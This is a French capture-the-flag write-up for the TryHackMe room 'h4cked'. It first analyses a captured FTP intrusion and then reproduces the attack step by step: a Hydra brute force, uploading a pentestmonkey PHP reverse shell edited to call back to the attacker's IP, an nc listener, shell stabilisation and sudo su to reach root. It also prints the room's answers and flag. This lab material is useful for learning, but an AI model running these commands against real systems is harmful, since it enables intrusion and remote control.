





# h4cked #

## Task 1 Oh no! We've been hacked! ##

**The attacker is trying to log into a specific service. What service is this?**



Sur Wireshark en suivant le protocol FTP on vois plusieurs essaie pour se connecter.  

Réponse : FTP   

**There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?**

En faisant un recherche sur internet on trouve le nom du logiciel.   

Réponse : Hydra  

**The attacker is trying to log on with a specific username. What is the username?**

En suivant le protocol FTP on trouve le nom d'utilisateur.   

Réponse : Jenny

**What is the user's password?**

En suivant le protocol FTP on trouve le mot de passe.  

Réponse : password123   

**What is the current FTP working directory after the attacker logged in?**



D'après les informations en suivant le protocol FTP le répertoire actuel est \/var\/www\/html.

Réponse : \/var\/www\/html    

**The attacker uploaded a backdoor. What is the backdoor's filename?**

Même chose en suivant les donées FTP.  

Réponse : shell.php

**The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?**



En regardant dans le reverse shell on trouve l'adresse web.     

Réponse : http:\/\/pentestmonkey.net\/tools\/php-reverse-shell

**Which command did the attacker manually execute after getting a reverse shell?**



La première commande tapée a été whoami   

Réponse : whoami

**What is the computer's hostname?**

On voit que le nom de la machine est wir3.    

Réponse : wir3     

**Which command did the attacker execute to spawn a new TTY shell?**

On va qu'il utilise python pour stabiliser le shell.    

Réponse : python3 -c 'import pty; pty.spawn("/bin/bash")'   

**Which command was executed to gain a root shell?**



On voit la commande pour être shell : sudo su   

La réponse : sudo su    

**The attacker downloaded something from GitHub. What is the name of the GitHub project?**

On a un lien git.    

```text
https://github.com/f0rb1dd3n/Reptile.git
```

Le nom du projet est Reptile.   

Réponse : Reptile       

**The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?**

D'arpès les détails de la question c'est rootkit.   

Réponse : rootkit

## Task 2 Hack your way back into the machine ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.248.186 hacked.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

```

**Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://hacked.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-11 21:46:20
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://hacked.thm:21/
[21][ftp] host: hacked.thm   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-11 21:46:58

```

On trouve le nouveau mot de passe : 987654321   

**Change the necessary values inside the web shell and upload it to the webserver**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp hacked.thm
Connected to hacked.thm.
220 Hello FTP World!
Name (hacked.thm:tim): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
226 Directory send OK.
ftp> get shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for shell.php (5493 bytes).
226 Transfer complete.
5493 bytes received in 0.00 secs (1.9746 MB/s)
ftp> exit
221 Goodbye.

tim@kali:~/Bureau/tryhackme/write-up$ cat shell.php | grep -A 1 '$ip' 
$ip = '10.9.228.66';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
--
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
--
printit("Successfully opened reverse shell to $ip:$port");


tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/192.168.0.147/10.9.228.66/g' shell.php 
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/80/1234/g' shell.php 

tim@kali:~/Bureau/tryhackme/write-up$ ftp hacked.thm
Connected to hacked.thm.
220 Hello FTP World!
Name (hacked.thm:tim): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (137.8059 MB/s)

```

On se connect sur le serveur FTP.  
On récupère le shell.   
On met notre adresse IP.   
On remet notre shell modifié  sur le serveur FTP.   

**Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.**

```bash
221 Goodbye.
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://hacked.thm/shell.php
```

On écoute sur le port 1234 pour se connecter au shell.    
On exécute le shell.   

**Become root!**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.248.186] 45118
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:00:05 up 27 min,  0 users,  load average: 0.00, 0.11, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$ 

su jenny
Password: 987654321

jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL

jenny@wir3:/$ sudo su
sudo su
root@wir3:/# 
```

On stabilise le shell.   
On se connecte sous l'utilisateur jenny.   
On vois que l'on peur exécuter n'importe quel commande avec sudo sans mot de passe.   
On se connecte sous l'utilisateur root.   

**Read the flag.txt file inside the Reptile directory**

```bash
root@wir3:/# cd /root	
cd /root/
root@wir3:~# ls
ls
Reptile
root@wir3:~# cd Reptile
cd Reptile
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
cat flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```

On trouve le fichier flag.txt.    
On le lit.   

La réponse est : ebcefd66ca4b559d17b440b6e67fd0fd    